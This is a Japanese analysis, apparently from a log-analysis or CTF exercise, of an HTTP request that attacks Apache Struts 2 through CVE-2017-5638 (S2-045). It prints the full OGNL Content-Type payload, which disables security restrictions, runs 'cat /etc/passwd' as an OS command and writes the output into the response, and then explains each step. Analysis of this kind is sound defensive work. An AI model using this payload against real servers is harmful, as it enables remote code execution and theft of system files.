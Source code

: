 `/struts2-rest-showcase/orders.xhtml` というパスから、192.168.74.1 は 192.168.74.130:8080 で Apache Struts 2 を利用した Web アプリケーションが動いていると考えて、あるいは機械的に総当たりでこのような HTTP リクエストを送ったと考えます。

この HTTP リクエストの Content-Type ヘッダについて、内容に含まれる `#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)` のような文字列から、これは OGNL (Object Graph Navigation Language) と呼ばれる言語で書かれた式であると分かります。

この HTTP リクエストは Apache Struts 2 を対象にしており、また Content-Type ヘッダの内容に OGNL 式を含むことから、Apache Struts 2 に存在した脆弱性 CVE-2017-5638 / S2-045 を狙った攻撃の試行であると判断しました。S2-045 は、Content-Type ヘッダに細工した OGNL 式を含ませることで任意のコードが実行できてしまうという脆弱性です。この脆弱性によって、例えば Web サイトの改ざんや情報の窃取、対象のサイトからの外部への攻撃など、様々な被害が発生する可能性があります。

この OGNL 式は何をするか、式の解析を行って調べていきます。

そのままでは読みにくいため、適時改行やインデントを入れて Content-Type の内容を整形すると以下のようになりました。

```
(#_='multipart/form-data').
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#_memberAccess?
  (#_memberAccess=#dm):
  (
    (#container=#context['com.opensymphony.xwork2.ActionContext.container']).
    (#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
    (#ognlUtil.getExcludedPackageNames().clear()).
    (#ognlUtil.getExcludedClasses().clear()).
    (#context.setMemberAccess(#dm)))).
(#cmd='cat /etc/passwd')
(#iswin=
  (@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).
(#cmds=
  (#iswin?
    {'cmd.exe','/c',#cmd}:
    {'/bin/bash','-c',#cmd})).
(#p=new java.lang.ProcessBuilder(#cmds)).
(#p.redirectErrorStream(true)).
(#process=#p.start()).
(#ros=
  (@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).
(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))
(#ros.flush())
```

[OGNL のドキュメント](https://commons.apache.org/proper/commons-ognl/language-guide.html) を参考に読んでいきます。`#variable` が変数、`@class@method(args)` が静的メソッドの呼び出し、`{ e, ... }` がリスト、`e1.(e2)` が式のチェーンを表すことを考えると、ほぼ Java として読めそうです。

後半の OS コマンドを実行している部分を見ていきます。まず `System.getProperty("os.name")` で OS の情報を取得しています。これは Windows 10 上では `Windows 10`、Linux 上では `Linux` のような文字列を返すメソッドです。これの返り値を全て小文字にした文字列の中に `win` が入っているかどうかで、OS が Windows かそうでないかを判定しているようです。  
Windows であれば `cmd.exe /c "cat /etc/passwd"`、それ以外であれば `/bin/bash -c "cat /etc/passwd"` を `ProcessBuilder` を使って OS コマンドとして実行しています。そして `p.redirectErrorStream(true)` で標準エラー出力を標準出力にリダイレクトしてエラーメッセージも得られるようにし、`ros = ServletActionContext.getResponse().getOutputStream()` と `IOUtils.copy(process.getInputStream(), ros)` で出力を HTTP レスポンスに書き出しています。

これで、この OGNL 式がどのような処理を行うか分かりました。
